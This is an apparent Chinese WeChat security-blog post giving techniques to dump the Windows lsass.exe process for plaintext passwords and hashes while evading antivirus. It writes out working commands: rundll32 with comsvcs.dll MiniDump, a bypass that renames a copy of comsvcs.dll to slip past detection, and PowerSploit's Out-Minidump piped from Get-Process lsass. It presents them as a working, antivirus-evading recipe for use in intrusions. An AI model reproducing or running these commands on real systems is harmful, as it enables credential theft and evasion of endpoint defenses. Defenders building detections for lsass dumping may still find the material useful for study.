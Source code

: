 ##  免杀转储lsass进程技巧

原创 Tubai  [ 花指令安全实验室 ](javascript:void\(0\);)

**花指令安全实验室** ![]()

微信号 junk-code

功能介绍 专注于红蓝安全攻防研究的优质平台

____

__

收录于话题

在渗透测试中，最常用的方法是通过dump进程lsass.exe，从中获得明文口令和hash,今天分享两个免杀转储lsass方式，目前亲测可过某60 or
某绒。  
  
第一种：  
comsvcs.dll，系统自带。

在原理上都是使用API MiniDumpWriteDump，通过comsvcs.dll的导出函数MiniDump实现dump内存。

  *   *   *   *   *   *   *   *   * 

    
    
    BOOL MiniDumpWriteDump(  HANDLE                            hProcess,  DWORD                             ProcessId,  HANDLE                            hFile,  MINIDUMP_TYPE                     DumpType,  PMINIDUMP_EXCEPTION_INFORMATION   ExceptionParam,  PMINIDUMP_USER_STREAM_INFORMATION UserStreamParam,  PMINIDUMP_CALLBACK_INFORMATION    CallbackParam);

 **注意权限的问题：**

在dump指定进程内存文件时，需要开启SeDebugPrivilege权限。管理员权限的cmd下，默认支持SeDebugPrivilege权限，但是状态为Disabled禁用状态。  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210817101653.png)

这里直接在cmd下执行rundll32的命令尝试dump指定进程内存文件时，由于无法开启SeDebugPrivilege权限，所以会失败。

 **解决方式：  
**

管理员权限的powershell下，默认支持SeDebugPrivilege权限，并且状态为Enabled

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210817101705.png)

可以通过powershell执行rundll32的命令实现。  
首先查看lsass.exe进程PID:  
  

![]()

命令格式：

  * 

    
    
    rundll32.exe comsvcs.dll MiniDump <lsass PID> <out path> full

直接利用发现会被拦截：  

  * 

    
    
    rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 564 lsass.dmp full

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210817101706.png)

  

简单的绕过思路：

copy一下comsvcs.dll并命名为随意名字，例如tubai.dll  

  *   * 

    
    
    copy C:\windows\System32\comsvcs.dll tubai.dllrundll32.exe tubai.dll, MiniDump 564 lsass.dmp full

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210817101707.png)

如图，成功转储了lsass  
第二种：  
PowerSploit 的一个模块Out-MiniDump是一个基于 Powershell 的渗透工具包，可以选择创建进程的完整内存转储。  
导入  

  * 

    
    
    Import-Module Out-MiniDump

执行  

  * 

    
    
    Get-Process lsass | Out-Minidump

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210817101708.png)

总结：

转储姿势很多，应该一起向编写一个程序来手动转储 LSASS 进程才是硬道理。

预览时标签不可点

收录于话题 #

个 __

上一篇 下一篇

阅读

分享 收藏

赞 在看

____已同步到看一看[写下你的想法](javascript:;)

前往“发现”-“看一看”浏览“朋友在看”

![](//res.wx.qq.com/mmbizwap/zh_CN/htmledition/images/pic/appmsg/pic_like_comment55871f.png)

前往看一看

**看一看入口已关闭**

在“设置”-“通用”-“发现页管理”打开“看一看”入口

[我知道了](javascript:;)

__

已发送

取消 __

####  发送到看一看

发送

免杀转储lsass进程技巧

最多200字，当前共字

__

发送中

写下你的留言

微信扫一扫  
关注该公众号

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

[知道了](javascript:;)

**长按识别前往小程序**

![]()

